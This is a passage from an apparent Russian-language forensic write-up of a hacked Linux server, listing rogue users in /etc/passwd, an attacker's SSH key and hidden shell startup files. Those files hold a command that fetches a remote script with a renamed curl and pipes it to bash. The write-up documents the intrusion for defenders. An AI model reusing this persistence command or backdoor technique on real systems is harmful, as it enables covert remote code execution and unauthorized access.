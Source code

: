 Потом полез в **/etc/passwd** и увидел в конце две свежие записи:

```c
...
hilde:x:1000:1000::/home/hilde:/bin/bash
lsb:x:1000:1000::/home/lsb:/bin/bash
```

В **/home** появилось два новых юзера (**hilde** и **lsb**), в их каталогах три неприметных скрытых файла:

```console
root@rescue /mnt/home/hilde # ls -la
total 20K
drwxr-xr-x   3 root root 4.0K Feb 13 21:20 .
drwxr-xr-x. 13 root root 4.0K Feb 14 18:40 ..
-rw-r--r--   1 root root   80 Feb 13 21:20 .bashrc
-rw-r--r--   1 root root   80 Feb 13 21:20 .profile
drwxr-xr-x   2 root root 4.0K Feb 13 20:25 .ssh
```

Не поверив, что файлы могут быть со стандартным содержимым — решил проверить и не ошибся:

```console
root@rescue /mnt/home/hilde # cat .bashrc
```
```bash 
{
/bin/cdz -fsSL http://104.192.82.138/s3f1015/a/a.sh | bash
} > /dev/null 2>&1
```

```console
root@rescue /mnt/home/hilde # cat .profile 
```
```bash
{
/bin/cdz -fsSL http://104.192.82.138/s3f1015/a/a.sh | bash
} > /dev/null 2>&1
```

Ага, вот и какой-то шеллкод. Сейчас к нему вернемся, но перед этим посмотрим, что у нас в **.ssh**:

```console
root@rescue /mnt/home/hilde/.ssh # ls
authorized_keys  authorized_keys2

root@rescue /mnt/home/hilde/.ssh # cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCmEFN80ELqVV9enSOn+05vOhtmmtuEoPFhompw+bTIaCDsU5Yn2yD77Yifc/yXh3O9mg76THr7vxomguO040VwQYf9+vtJ6CGtl7NamxT8LYFBgsgtJ9H48R9k6H0rqK5Srdb44PGtptZR7USzjb02EUq/15cZtfWnjP9pKTgscOvU6o1Jpos6kdlbwzNggdNrHxKqps0so3GC7tXv/GFlLVWEqJRqAVDOxK4Gl2iozqxJMO2d7TCNg7d3Rr3w4xIMNZm49DPzTWQcze5XciQyNoNvaopvp+UlceetnWxI1Kdswi0VNMZZOmhmsMAtirB3yR10DwH3NbEKy+ohYqBL root@puppetserver
```

Ага, чей-то публичный ключик для коннекта с сервером.

Вобъем в гугл и убедимся что мы не первые жертвы:


